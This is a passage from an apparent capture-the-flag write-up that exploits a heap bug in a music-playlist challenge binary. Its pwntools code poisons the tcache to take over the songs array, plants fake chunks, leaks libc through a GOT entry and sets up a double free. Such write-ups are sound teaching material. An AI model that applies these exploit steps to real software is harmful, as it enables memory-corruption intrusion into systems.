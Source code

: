 ```python  
playsong(42)  
freesong(43)  
freesong(42)

stdsong(44, -1, "A"*0x690 + p64(0x4040be))  
```

After this, we can allocate another 0x3c0 chunk (which one doesn't matter too
much), which pops the tcache  
head, making the tcache head point `&songs[1].album`. We can once more malloc
an 0x3c0 chunk, which returns  
`&songs[1].album`. For this, we choose song 19 such that `songs[18].contents =
&songs[1].album`.  
After this, the fake chunk then gets memsetted.  This song was chosen because
it means that the file length works out exacty so that `songs[18].fd` will be
zeroed out but  
`songs[18].contents` will not. The read, therefore, is `read(0,
&songs[1].album, 0x3b3)`. Now we have control of the  
songs array and can create some fake song structs.

We can set up these fake structs to do a few things: leak a libc address,  
cause a double free, and create a few songs with fd 0 for later use. The libc
leak can be achieved by setting a song's  
album or song to a GOT entry and viewing the playlist. For the double free, we
can create a fake chunk of size 0x20, and  
set the contents pointer of two songs to this fake chunk.  
When we remove these songs (numbered 4 and 5), they will free their contents
pointer, double free-ing our 0x20 fake chunk.  
Note that when we remove a song the file descriptor is closed, so we have to
set the file descriptor to a nonzero value (we don't want to close stdin,
after all).

```python  
playsong(25)  
playsong(19)  
fake_chunk = '\x00'*0x1a + p64(0x21) + '\x00'*8 + p64(0) +
p64(elf.got['system']) + p64(0) + p64(0)  #the fake chunk  
fake_pointer = '\x00' * 24 + p64(0xff) + p64(elf.got['system']) + p64(0) +
p64(0x4040e0)             #for the double free  
fake_song = '\x00' * 24 + p64(0) + p64(elf.got['system']) + p64(0) + p64(0)
#the fd 0 songs

proc.send(fake_chunk + fake_pointer * 2 + fake_song * 3)  
freesong(4)  
proc.recvuntil("from ")  
system_addr = proc.readuntil("\n\nSo", drop=True)  
system_addr = u64(system_addr.ljust(8, '\x00'))  
libc.address = system_addr - libc.symbols["system"]  
print hex(libc.address)  
freesong(5)  
```

### don't stop make it pop
